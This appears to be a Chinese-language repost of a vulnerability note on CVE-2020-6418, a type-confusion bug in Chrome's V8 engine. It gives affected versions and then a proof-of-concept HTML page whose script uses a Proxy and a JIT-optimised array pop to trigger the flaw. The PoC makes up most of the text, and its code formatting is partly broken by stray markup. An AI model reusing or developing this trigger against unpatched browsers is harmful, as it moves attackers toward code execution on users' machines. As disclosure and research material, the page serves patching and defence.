 # （CVE-2020-6418）Chrome 远程代码执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2961](https://www.zhihuifly.com/t/topic/2961)

# （CVE-2020-6418）Chrome 远程代码执行漏洞

## 一、漏洞简介

在Google Chrome浏览器80.0.3987.122以下与Microsoft Edge浏览器80.0.361.62以下的版本中，开源JavaScript和WebAssembly引擎V8中存在一个类型混淆漏洞（CVE-2020-6418），可能导致攻击者非法访问数据，从而执行恶意代码。

## 二、漏洞影响

Google Chrome浏览器80.0.3987.122以下与Microsoft Edge浏览器80.0.361.62以下的版本中

## 三、复现过程

### poc

```
<!DOCTYPE html>
<head>
    <script>
        ITERATIONS = 10000
        TRIGGER = false

```
 function f(a,p){
        return a.pop(Reflect.construct(function(){}, arguments, p))
    }

    let a;
    let p = new Proxy(Object, {
        get: function(){
            if (TRIGGER){
                a[2] = 1.1;
            }
            return Object.prototype;
        }
    });
    for(let i = 0; i &lt; ITERATIONS; i++){
        let isLastIteration = i==ITERATIONS-1;
        a = [0,1,2,3,4];
        if(isLastIteration)
            TRIGGER = true;
        console.log(f(a,p));
    }
    console.log(a)
&lt;/script&gt; 
``` `</head>

<body>

CVE-2020-6418 PoC!

</body>` 
```

## 参考链接

> https://github.com/ChoKyuWon/CVE-2020-6418/blob/master/poc.html